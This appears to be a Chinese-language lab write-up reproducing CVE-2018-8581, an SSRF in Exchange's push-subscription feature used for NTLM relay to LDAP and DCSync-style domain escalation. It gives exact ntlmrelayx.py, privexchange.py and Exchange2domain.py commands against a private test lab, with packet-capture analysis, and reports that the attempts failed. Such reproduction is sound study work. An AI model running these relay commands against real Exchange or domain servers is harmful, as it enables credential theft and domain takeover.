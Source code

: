 # CVE-2018-8581

## 一、原理

Exchange服务器的推送订阅接口存在SSRF，它允许为任何用户推送订阅所指定的URL，当Exchange尝试连接用户指定的URL时候，将会用`CredentialCache.DefaultCredentials`方式进行。

其中`CredentialCache.DefaultCredentials`是以最高权限`SYSTEM`权限运行，通过SSRF发送Exchange的最高权限net NTLM给攻击者，注意SSRF回连Attack是以MAIL权限。

+ 攻击1

  在调用接口时候，使用其他用户SID来伪造攻击，从而可以达到收取他人邮件，模拟他人发送邮件。攻击者利用反射攻击回到Exchange服务器去调用接口，这个时候是最高权限的调用。

+ 攻击2

  通过NTLM Relay中`HTTP -> LDAP`协议的转变，进而攻击域控。由于Exchange角色权限具有修改writeDACL权限，可以将普通域用户赋予具有DCSync权限，从而Dump域控中的Hash信息。

## 二、测试环境

windows 2012：域控 192.168.15.161

windows 2012+Exchange 2016： 邮件服务器 192.168.15.158

windows7：攻击机 192.168.15.130

域用户：geroge (也是邮件服务的用户)

## 三、复现-攻击2

### 3.1 攻击机开启服务，进行监听

`python ntlmrelayx.py -t ladp://192.168.15.161 --escalate-user geroge`

![](.\pictures\cve_2018_8581_ntlmrelay1.PNG)

等待邮件服务器回连。

### 3.2 向邮件服务器指定推送订阅的URL

`python privexchange.py -ah 192.168.15.130 192.168.15.158 -u geroge -d park.com`

输入用户口令后得到如下结果

![](.\pictures\cve_2018_8581_ews1.PNG)

脚本运行成功。抓包分析如下：

![](.\pictures\cve_2018_8581_ews2.PNG)

攻击机利用Exchange Web Services(EWS)的推送订阅功能强制Exchange服务器向任意指定的URL进行NTLM认证，这一步由563号数据包完成。在进行推送订阅时，攻击机要向Exchange服务器进行认证（wireshark中563号数据包应该是在562号数据包前的）因此，攻击者需要一个合法的普通用户身份。696号数据包为服务器的响应数据包。

### 3.3 邮件服务器回连攻击机

推送订阅成功后，稍等片刻，攻击机监听程序即收到服务器的回连数据包

![](.\pictures\cve_2018_8581_ntlmrelay2.PNG)

但是连接失败，提示未找到LDAP客户端协议，wireshark抓包分析，

![](.\pictures\cve_2018_8581_ntlmrelay3.PNG)

4187号数据包：邮件服务器回连攻击机；

4189号数据包：攻击机提示邮件服务器使用NTLM进行认证；

4196号数据包：邮件服务器发起NTLM协商；

4202号数据包：攻击机给邮件服务器重定向响应，这里不甚明白，为何如此，使用另外一个利用脚本即可（https://github.com/Ridter/Exchange2domain）。

### 3.4 更换利用脚本

`python Exchange2domain.py -ah 192.168.15.130 -u geroge -d park.com -th 192.168.15.161 192.168.15.158`

![](.\pictures\cve_2018_8581_ntlmrelay4.png)

仍然未能成功，提示在更新ACL（access control list）时发生了错误，抓包分析,

![](.\pictures\cve_2018_8581_ntlmrelay5.png)

ntlm中继成功，攻击机仿冒“PARK\MAIL$”认证成功，然而在修改ACL时权限不够。

![](.\pictures\cve_2018_8581_ntlmrelay6.png)

完整的wireshark数据包(./resources/cve_2018_8581_exchange2domain.pcapng)

## 复现-攻击1

原理类似，利用ntlm中继攻击邮件服务器，同样没有成功。